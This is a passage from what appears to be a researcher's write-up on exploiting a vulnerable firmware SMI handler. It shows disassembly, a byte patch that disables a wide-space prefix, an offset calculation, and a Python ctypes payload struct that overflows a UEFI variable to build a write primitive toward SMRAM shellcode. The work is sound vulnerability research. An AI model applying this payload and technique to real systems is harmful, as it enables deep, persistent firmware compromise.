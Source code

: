 *   0xFEED2000 is in SMRAM
*   I have to be able to write shellcode to 0xFEED2000
*   I have to be able to call the function that calls 0xFEED2000 (via an SMI handler, or other method)

These conditions didn’t exist, or at least, I couldn’t find a good candidate. As such, just being able to write `0x20 0x00` anywhere was less than ideal.

Instead, I decided to leverage the `GetVariable` overflow to write my own data, which I can then pass to `fnWriteStatusToMemory`.

##### [#](#building-a-better-write-primitive) Building A Better Write Primitive

If you recall, `fnWriteStatusToMemory` prepends all its writes with a wide space:

```
fnWriteStatusToMemory("my_shellcode", 0xFEEDBEEF);
```

Results in “my_shellcode” being written to 0xFEEDBEEF.

Having `0x20 0x00` prepended to every write really limits the options on what can be written and where. And certainly no working shellcode (0x20 0x00 is not a valid instruction). That needs to be disabled.

Here is the assembly for the vulnerabile SMI handler, prior to it calling `fnWriteStatusToMemory`:

```
48 8D 51 79            lea     rdx, [rcx+79h]
48 8D 0D 0D 0F 00 00   lea     rcx, aAccessDenied ; "Access denied"
E8 68 EF FF            call    fnWriteStatusToMemory
```

Using the `0x20 0x00` primitive, I turn

```
48 8D 0D 0D 0F 00 00   lea     rcx, aAccessDenied ; "Access denied"
```

into:

```
48 8D 0D 0D [20 00] 00   lea     rcx, byte_4AA356D8
```

I do this now because I need a way to disable the writing of the wide-byte portion of `fnWriteStatusToMemory` and will need this functionality later.

Now, anything at address `0x4AA356D8` will be written (as a wide string) to `pWMIAcpiMemAddr->status`. Luckily, **0x4AA356D8** is lower in memory than **0x4AA34710** (the address of pWMIAcpiMemAddr).

Overflowing the `WMIACPIMemAddress` variable, I can set 0x4AA356D8 to whatever value I need by adjusting the WMIPayload struct I used previously:

_0x4AA356D8 - 0x4AA34710 (address of pWMIAcpiMemAddr) = **0xFC8**_

The new WMIPayload struct:

```
class WMIPayload(ctypes.LittleEndianStructure):
  _pack_ = 1
  _fields_ = [
    ("WmiACPIMemAddress", ctypes.c_uint64),        # 0x0000
    ("WmiACPIMemAddressCpy", ctypes.c_uint64),     # 0x0008
    ("pad_0010", ctypes.c_char * 24),              # 0x0010
    ("gSMST_0", ctypes.c_uint64),                  # 0x0028
    ("pad_0030", ctypes.c_char * 40),              # 0x0030
    ("InSmram", ctypes.c_uint64),                  # 0x0058
    ("gSMRT", ctypes.c_uint64),                    # 0x0060
    ("gSMST_1", ctypes.c_uint64),                  # 0x0068
    ("pad_0070", ctypes.c_char * 3928),            # 0x0070 // 3928 byte padding
    ("Primitive", ctypes.c_byte * 8),              # 0x0FC8 // 0x4AA356D8
  ]
```